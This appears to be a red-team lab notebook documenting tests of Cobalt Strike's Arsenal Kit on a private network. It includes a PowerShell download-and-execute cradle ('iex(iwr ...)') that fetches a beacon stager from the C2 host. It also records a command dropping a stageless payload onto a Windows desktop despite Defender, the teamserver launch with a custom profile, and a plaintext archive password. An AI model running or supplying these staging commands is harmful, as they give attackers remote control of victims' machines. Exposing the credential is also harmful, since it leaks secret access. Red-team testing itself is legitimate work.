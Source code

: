 
#### Resource Kit - Success
loaded `arsenal_kit.cna`
![[Pasted image 20250130205324.png]]
started `scripted web delivery`
![[Pasted image 20250130205021.png]]
payload to use to kick off beacon
`iex(iwr http://192.168.179.129/a -useb)`
- screenshot of that happening
![[Pasted image 20250130205145.png]]
cobalt beacon
![[Pasted image 20250130205201.png]]

#### Artifact Kit - Success
creating `windows stageless payload `
![[Pasted image 20250130205407.png]]
![[Pasted image 20250130205428.png]]
dropping in `/home/kali/malware`
![[Pasted image 20250130205457.png]]
hosting at `/artifactkittesting`
![[Pasted image 20250130205547.png]]
grabbing and dropping straight on the desktop
```bash
wget http://192.168.179.129:80/artifactkittesting -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe" 
```
proof it got dropped straight on desktop with defender activated
![[Pasted image 20250130205800.png]]
executing the `payload`
![[Pasted image 20250130205850.png]]
beacon caught
![[Pasted image 20250130205914.png]]

#### Cobalt Strike Cleanup Script
now testing is done and both `artifact kit` and `resource kit` are working, time to wipe it clean with `./clearteamserverdata`
![[Pasted image 20250130210219.png]]
reboot the `teamserver` and log back in to the fresh `cobaltstrike`
```bash
┌──(root💀gobots)-[31Jan2025 02:02:37]-[/opt/cobaltstrike_30JAN2025/server]                                                                                
└─# ./teamserver 192.168.179.129 passphrase /opt/cobaltstrike_30JAN2025/custom-cobalt/Profiles/custom.profile                                              
[*] Starting teamserver                                                                                                                                    
[*] Team Server Version: 4.10.1 Licensed
[*] Setting 'https.protocols' system property: SSLv3,SSLv2Hello,TLSv1,TLSv1.1,TLSv1.2,TLSv1.3
[+] I see you're into threat replication. /opt/cobaltstrike_30JAN2025/custom-cobalt/Profiles/custom.profile loaded.
[*] Loading keystrokes.
[*] Loaded 0 keystrokes.
[*] Loading screenshots.
```
screenshot
![[Pasted image 20250130210410.png]]
in `script manager` `unload` and `load` the new `arsenal_kit.cna` to be safe
![[Pasted image 20250130210513.png]]
once that is completed, close out of `cobaltstrike` and shutdown the `teamserver` and copy the `.aggressor.prop` file to `/opt/cobaltstrike/client`
```bash
┌──(root💀gobots)-[31Jan2025 02:08:39]-[/opt/cobaltstrike_30JAN2025/custom-cobalt/Files]
└─# cp .aggressor.prop /opt/cobaltstrike_30JAN2025/client 
```
proof it was moved
![[Pasted image 20250130211022.png]]

```bash
7z a -mhe=on -r -p cs-20250130 /opt/cobaltstrike_30JAN2025/
```
and save with `C2` password
`ivolunteerASTRIBUTE%2012`

zipped up and `GTG`
![[Pasted image 20250130212144.png]]